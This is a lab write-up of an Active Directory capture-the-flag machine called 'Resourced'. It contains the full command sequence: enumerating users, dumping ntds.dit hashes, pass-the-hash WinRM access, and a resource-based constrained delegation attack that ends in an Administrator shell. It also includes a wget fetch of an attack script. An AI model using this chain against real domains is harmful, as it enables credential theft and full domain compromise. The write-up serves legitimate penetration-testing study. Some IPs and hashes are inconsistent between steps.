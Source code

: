 ```yaml
---
description: Owned DC using a Resource-Based Constrained Delegation technique
---
```


# Resourced

## Summary

* A list of usernames from the <mark style="color:red;">enum4linux</mark> tool was retrieved along with one user's password, which was written in the description.&#x20;
* Enumerated SMB using the credentials and got interesting files like <mark style="color:red;">ntds.dit</mark>
* Used secretdump.py to extract hashes from <mark style="color:red;">ntds.dit</mark> file
  * Validated the hashes against <mark style="color:red;">crackmapexec</mark> to get a valid hash for another user.
* `L.Livingstone` turned out to be a sysadmin giving us access to the machine via Winrm
* Now used BloodHound-python to get Privilege escalation and lateral movement Vector
  * L. Livingstone had genericAll permission on the DC machine.
* As suggested by BloodHound, we can own the DC by using a <mark style="background-color:red;">Resource-Based Constrained Delegation technique</mark>

## Let's Unpack

### Enumeration

Retrieved list of users and a user's password in the description

<pre class="language-bash"><code class="lang-bash">enum4linux -a 192.168.172.175
>
index: 0xeda RID: 0x1f4 acb: 0x00000210 Account: Administrator  Name: (null)    Desc: Built-in account for administering the computer/domain                  
index: 0xf72 RID: 0x457 acb: 0x00020010 Account: D.Durant       Name: (null)    Desc: Linear Algebra and crypto god
index: 0xf73 RID: 0x458 acb: 0x00020010 Account: G.Goldberg     Name: (null)    Desc: Blockchain expert
index: 0xedb RID: 0x1f5 acb: 0x00000215 Account: Guest  Name: (null)    Desc: Built-in account for guest access to the computer/domain
index: 0xf6d RID: 0x452 acb: 0x00020010 Account: J.Johnson      Name: (null)    Desc: Networking specialist
index: 0xf6b RID: 0x450 acb: 0x00020010 Account: K.Keen Name: (null)    Desc: Frontend Developer
index: 0xf10 RID: 0x1f6 acb: 0x00020011 Account: krbtgt Name: (null)    Desc: Key Distribution Center Service Account
index: 0xf6c RID: 0x451 acb: 0x00000210 Account: L.Livingstone  Name: (null)    Desc: SysAdmin
index: 0xf6a RID: 0x44f acb: 0x00020010 Account: M.Mason        Name: (null)    Desc: Ex IT admin
index: 0xf70 RID: 0x455 acb: 0x00020010 Account: P.Parker       Name: (null)    Desc: Backend Developer
index: 0xf71 RID: 0x456 acb: 0x00020010 Account: R.Robinson     Name: (null)    Desc: Database Admin
index: 0xf6f RID: 0x454 acb: 0x00020010 Account: S.Swanson      Name: (null)    Desc: Military Vet now cybersecurity specialist
index: 0xf6e RID: 0x453 acb: 0x00000210 Account: V.Ventz        Name: (null)    Desc: New-hired, reminder: HotelCalifornia194!

# Got credential of one user
<strong>V.Ventz
</strong><strong>HotelCalifornia194!
</strong> 
 # validated credentials using cme
 crackmapexec smb 192.168.172.175 -u 'V.Ventz' -p 'HotelCalifornia194!' --continue-on-success
</code></pre>



Using smbClient, retrieved preety interesting files

```bash
smbclient  '//192.168.172.175/Password Audit' -U V.Ventz

- ntds.dit
- ntds.jfm
- SECURITY
- SYSTEM
```

### Initial Foodhold

For retrieving Credentials from ntds.dit file, I referred to the following article

[https://www.hackingarticles.in/credential-dumping-ntds-dit/](https://www.hackingarticles.in/credential-dumping-ntds-dit/)

```bash
 impacket-secretsdump -ntds ntds.dit -security SECURITY -system SYSTEM
 
 # Got a Bunch of hash but all users, but most of them were expired
 # used crackmapexec to check the validity of the has
 crackmapexec winrm 192.168.120.181 -u users -H hashes
 # Got one valid hash and had winrm access as well
 V.Ventz:1107:aad3b435b51404eeaad3b435b51404ee:913c144caea1c0a936fd1ccb46929d3c:::

```

Using `evil-winrm` to get into the machine

```sh
evil-winrm -i 192.168.172.175 -u L.Livingstone -H 19a3a7550ce8c505c2d46b5e39d6f808

# Got the local.txt
```

### Priv Escalation and Lateral Movement

Using BloodHound to find more vectors for lateral movement

```bash
bloodhound-python -d resourced.local -u V.Ventz -p 'HotelCalifornia194!' -ns 192.168.191.175 -c All 
```

#### Findings

* The user `L.LIVINGSTONE@RESOURCED.LOCAL` has <mark style="color:red;">GenericAll</mark> privileges to the computer `RESOURCEDC.RESOURCED.LOCAL.`

<figure><img src="../.gitbook/assets/Screenshot 2024-07-07 at 1.59.22 AM (1).png" alt=""><figcaption></figcaption></figure>

The possible Attack Vector, as suggested by Bloodhound, was a **Constrained Delegation attack.**



Let's create a new machine account on the domain. We can do with by using `impacket-addcomputer`.

```bash
impacket-addcomputer resourced.local/l.livingstone -dc-ip 192.168.120.181 \n
-hashes :19a3a7550ce8c505c2d46b5e39d6f808 -computer-name 'ATTACK$' \n
-computer-pass 'AttackerPC1!'

[*] Successfully added machine account ATTACK$ with password AttackerPC1!.

```

Now, we need to set <mark style="background-color:red;">msDS-AllowedToActOnBehalfOfOtherIdentity</mark> on our new machine account. For this, we will use impacket-rbcd.py

```bash
impacket-rbcd -dc-ip 192.168.120.181 -t RESOURCEDC -f 'ATTACK' \n
 -hashes :19a3a7550ce8c505c2d46b5e39d6f808 resourced\\l.livingstone 

# For some reason, impacket gave odd error, so I had to download the script instead
wget https://raw.githubusercontent.com/tothi/rbcd-attack/master/rbcd.py  

sudo python3 rbcd.py -dc-ip 192.168.120.181 -t RESOURCEDC -f 'ATTACK' \n
 -hashes :19a3a7550ce8c505c2d46b5e39d6f808 resourced\\l.livingstone

```

Now let's grap Silver ticket using  `impacket-getST`&#x20;

```bash
# First, fix the skewed clock
rdate -n 192.168.120.181

# Get the silver ticket
impacket-getST -spn cifs/resourcedc.resourced.local resourced/attack\$:'AttackerPC1!' \n
-impersonate Administrator -dc-ip 192.168.120.181

# Silver ticket is saved in Administrator.ccache. Let's export it into the env variable
export KRB5CCNAME=./Administrator.ccache
```

Now that we have our silver ticket, we can move laterally to the ResourceDC machine impersonating as Administrator using Psexec.

```bash
sudo impacket-psexec -k -no-pass resourcedc.resourced.local -dc-ip 192.168.120.181 

# Boom@ Got the Admin shell and proof.txt as well :) 
```





